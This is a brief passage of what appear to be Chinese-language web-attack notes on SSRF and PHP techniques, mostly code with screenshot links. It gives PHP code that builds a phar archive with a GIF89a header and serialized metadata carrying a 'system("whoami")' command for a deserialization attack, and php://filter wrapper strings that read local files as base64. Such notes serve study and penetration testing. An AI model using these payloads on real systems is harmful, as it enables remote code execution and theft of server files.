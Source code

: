 ```php
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'system("whoami");';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```
![image.png](./SSRF.assets/2023_05_19_10_39_43_TQNc2EyJ.png)

![image.png](./SSRF.assets/2023_05_19_10_39_43_nUxeYPyj.png)



#### php://filter
读取本地文件并进行base64编码
```
php://filter/convert.base64-encode/resource=xx.xx
php://filter/read=convert.base64-encode/resource=xx.xx
```
![image.png](./SSRF.assets/2023_05_19_10_39_43_QkzA62v4.png)
